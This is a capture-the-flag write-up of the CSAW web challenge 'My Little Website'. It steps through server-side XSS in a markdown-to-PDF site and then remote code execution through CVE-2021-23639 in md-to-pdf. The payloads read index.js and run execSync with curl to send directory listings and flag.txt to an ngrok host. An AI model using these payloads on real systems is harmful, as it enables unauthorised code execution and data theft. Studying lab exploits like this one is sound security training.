






# My Little Website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :) ... [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a server-side PDF rendering website, and we can write markdown.\
First thing, let's check for XSS:

```javascript
<script> document.write(window.location) </script>
```



And we find out that it's vulnerable to Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application.\
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```



We're inside the `/chal` directory. We also understand that it's a Node.js application, and `index.js` seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```



That's a lot of info, but what's most important is the `mdToPdf` package. With a quick search we'll know that the version used by the application is vulnerable to CVE-2021-23639 and we can achieve RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/ls.txt && curl -d @/tmp/ls.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```



No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/ls.txt && curl -d @/tmp/ls.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```



Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```



Flag: `CTF{pdf_c0nt1nu3s_70_5uCK}`
